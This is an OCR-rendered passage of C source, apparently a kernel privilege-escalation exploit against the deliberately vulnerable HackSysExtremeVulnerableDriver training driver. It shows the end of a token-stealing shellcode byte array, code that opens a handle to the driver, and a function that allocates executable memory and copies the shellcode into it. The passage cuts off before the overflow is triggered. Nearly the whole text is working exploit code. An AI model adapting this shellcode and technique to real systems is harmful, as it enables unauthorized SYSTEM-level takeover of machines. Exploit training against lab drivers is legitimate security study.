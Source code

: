 ```c
	0x89, 0xEE, 0x49, 0x81, 0xC6, 0xD0, 0x00, 0x00, 0x00, 0x4D, 0x89, 0xF7,
	0x4D, 0x8B, 0x7F, 0x30, 0x48, 0x83, 0xC4, 0x10, 0x59, 0x5B, 0x58, 0xC3
};


INT TriggerExploit(HANDLE hDevice);
UINT64 GetKernelBaseAddress();

INT main() 
{
    HANDLE hDevice;
    PCWSTR lpDeviceName = L"\\\\.\\HackSysExtremeVulnerableDriver";

    hDevice = CreateFileW(
        lpDeviceName,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );
    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open handle to driver: %lu\n", GetLastError());
        return -1;
    } 

    printf("[+] Device opened successfully!\n");

    if (TriggerExploit(hDevice) >= 0) {
        printf("[+] Exploit completed successfully!\n");
    } else {
        printf("[-] Exploit failed: %lu\n", GetLastError());
    }

    printf("[+] Cleaning up and closing handle...\n");
    CloseHandle(hDevice);

    return 0;
}

INT TriggerExploit(HANDLE hDevice) 
{
    UINT64 *lpInBuffer;
    LPVOID  lpShellcode;
    UINT64  kernelBase = 0xfffff8029ac8d000;
    SIZE_T  inBufferSize;
    SIZE_T  returnAddrIndex;
    DWORD   bytesReturned;
    SIZE_T  shellcodeSize = sizeof(TokenStealingPayloadWin8);


    // Allocate space for the shellcode
    printf("[+] Allocating executable memory for shellcode\n");

    if (!(lpShellcode = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE))) {
        printf("[-] Failed to allocate memory for shellcode: %lu\n", GetLastError());
        return -1;
    }

    // Copy shellcode into executable user space memory
    RtlCopyMemory(lpShellcode, TokenStealingPayloadWin8, shellcodeSize);
```